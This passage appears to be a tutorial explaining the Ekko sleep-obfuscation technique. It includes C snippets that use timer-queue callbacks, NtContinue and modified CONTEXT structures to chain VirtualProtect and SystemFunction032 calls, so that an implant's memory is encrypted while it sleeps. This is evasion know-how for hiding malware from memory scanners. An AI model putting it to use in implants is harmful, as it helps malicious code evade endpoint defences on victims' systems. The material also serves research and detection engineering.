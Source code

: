 
<details style="background-color: #000000; color: #FFFFFF; border-left: 5px solid #00FF00; border-radius: 10px; padding: 10px;"><summary>Callbacks?</summary></details>

The callbacks we will use in particular is `NtContinue` because we can pass a `CONTEXT` structure. This structure contains the registers of a thread; so `NtContinue` will set the current thread's registers accordingly. Now we can do ROP; by controlling the instruction pointer (`RIP`), the stack pointer (`RSP`), and the argument registers of our callback thread, we can make it do stuff while our main thread is asleep. 

<details style="background-color: #000000; color: #FFFFFF; border-left: 5px solid #00FF00; border-radius: 10px; padding: 10px;"><summary>Argument Registers?</summary></details>

At its initial implementation, Ekko's timer queue callbacks will do the following:

* Change memory permissions to R/W
* Encrypt memory via SystemFunction032   
* Wait for the sleep duration 
* Decrypt memory via SystemFunction032
* Change memory back to R/E   

First, we must queue up a timer to capture a `CONTEXT` that we will modify and utilize for each callback. 
```
CreateTimerQueueTimer(&hNewTimer, hTimerQueue, RtlCaptureContext, &CtxThread, 0, 0, WT_EXECUTEINTIMERTHREAD); // Create the timer callback
WaitForSingleObject(hEvent, 0x32); // Trigger it after waiting for .32 seconds
```
<p></p>
<details style="background-color: #000000; color: #FFFFFF; border-left: 5px solid #00FF00; border-radius: 10px; padding: 10px;"><summary>Why create a timer and trigger it to capture the context?</summary></details>


Then we can paste it into all of our `CONTEXT` structs.

```
memcpy(&RopProtRW, &CtxThread, sizeof(CONTEXT));
memcpy(&RopMemEnc, &CtxThread, sizeof(CONTEXT));
memcpy(&RopDelay,  &CtxThread, sizeof(CONTEXT));
memcpy(&RopMemDec, &CtxThread, sizeof(CONTEXT));
memcpy(&RopProtRX, &CtxThread, sizeof(CONTEXT));
memcpy(&RopSetEvt, &CtxThread, sizeof(CONTEXT));
```

Next, modify the copied `CONTEXTs` according to what/how we want to call.

```
// VirtualProtect( ImageBase, ImageSize, PAGE_READWRITE, &OldProtect );
RopProtRW.Rsp -= 8; // Remember how RtlCaptureContext oversteps our return address?
RopProtRW.Rip = VirtualProtect;
RopProtRW.Rcx = ImageBase;
RopProtRW.Rdx = ImageSize;
RopProtRW.R8 = PAGE_READWRITE;
RopProtRW.R9 = &OldProtect;
/* Do this for all the structs */
```
